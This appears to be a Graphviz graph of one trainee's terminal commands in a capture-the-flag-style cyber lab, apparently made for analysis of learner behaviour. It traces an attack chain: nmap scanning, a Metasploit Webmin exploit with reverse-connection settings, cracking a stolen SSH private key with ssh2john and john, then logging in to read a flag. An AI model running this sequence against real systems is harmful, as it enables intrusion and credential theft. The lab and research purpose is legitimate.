 // creating graph for user: 84
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	1 [label="nmap 172.18.1.5 M0 "]
	2 [label="ls A10 "]
	3 [label="metasploit U"]
	4 [label="msf-console U"]
	5 [label="sudo service postgresql start U"]
	6 [label="sudo msfdb init U"]
	7 [label="msfconsole M2 "]
	8 [label="search webmin M3 "]
	9 [label="use  A4 "]
	10 [label="use 2 A4 "]
	11 [label="check A7 "]
	12 [label="show options M5 "]
	13 [label="set RHOST 172.18.1.5 A6 "]
	14 [label="set RPORT 10000 M6 "]
	15 [label="check A7 "]
	16 [label="search webmin M3 "]
	17 [label="use ~ A4 "]
	18 [label="use 3 A4 "]
	19 [label="search webmin M3 "]
	20 [label="use 3 A4 "]
	21 [label="show options M5 "]
	22 [label="set SRVHOST 172.18.1.5 A6 "]
	23 [label="check A7 "]
	24 [label="set SRVHOST 0.0.0.0 A6 "]
	25 [label="set RHOST 172.18.1.5 A6 "]
	26 [label="check A7 "]
	27 [label="exploit M8 "]
	28 [label="set LHOST 147.251.83.13 M6 "]
	29 [label="exploit M8 "]
	30 [label="set LPORT 12345 A6 "]
	31 [label="exploit M8 "]
	32 [label="set LHOST 100.100.100.2 M6 "]
	33 [label="exploit M8 "]
	34 [label="set LPORT  A6 "]
	35 [label="set LPORT 4444 A6 "]
	36 [label="exploit M8 "]
	37 [label="set LHOST 10.1.135.83 M6 "]
	38 [label="nmap 10.1.17.4 A0 A1 "]
	39 [label="ssh 10.1.17.4 A16 "]
	40 [label="ssh eve@10.1.17.4 M16 "]
	41 [label="cd .ssh A16 "]
	42 [label="ls A10 "]
	43 [label="nano id_rsa U"]
	44 [label="ssh-add id_rsaaaa A16 "]
	45 [label="ssh_add id_rsa A16 "]
	46 [label="ssh-add id_rsaa A16 "]
	47 [label="ssh-add id_rsa A16 "]
	48 [label="chmod #033[2~ id_rsa A15 "]
	49 [label="exploit M8 "]
	50 [label="chmod 600 id_rsa M15 "]
	51 [label="ssh-add id_rsa A16 "]
	52 [label="ssh-add id_rsa A16 "]
	53 [label="ssh eve@10.1.17.4 M16 "]
	54 [label="ls A10 "]
	55 [label="mv id_rsa ../id_rsa U"]
	56 [label="cd .. U"]
	57 [label="ll U"]
	58 [label="ls A10 "]
	59 [label="./ssh2john.py A14 A16 "]
	60 [label="./ssh2john.py id_rsa A14 A16 "]
	61 [label="./ssh2john.py id_rsa > hash A14 A16 "]
	62 [label="ls A10 "]
	63 [label="joh hash --show A5 "]
	64 [label="john hash --show A5 A14 "]
	65 [label="john hash --show A5 A14 "]
	66 [label="john hash --show A5 A14 "]
	67 [label="john hash A14 "]
	68 [label="gunzip /usr/share/wordlists/rockyou.txt.gz U"]
	69 [label="john --wordlist=/usr/share/wordlists/rockyou.txt hash M14 "]
	70 [label="ssh eve@10.1.17.4 M16 "]
	71 [label="john --wordlist=/usr/share/wordlists/rockyou.txt hash > result M14 "]
	72 [label="cat result A1 A9 A11 A12 A17 "]
	73 [label="ssh eve@10.1.17.4 M16 "]
	74 [label="ssh eve@10.1.17.4 M16 "]
	75 [label="mv id_rsa .ssh/id_rsa A16 "]
	76 [label="ssh eve@10.1.17.4 M16 "]
	77 [label="ssh eve@10.1.17.4 M16 "]
	78 [label="ls A10 "]
	79 [label="cat top-secret A1 A9 A11 A12 A17 "]
	80 [label="cd top-secret U"]
	81 [label="ls -la A10 "]
	82 [label="cat flag.txt M17 "]
	83 [label="ls A10 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	rankdir=LR
}
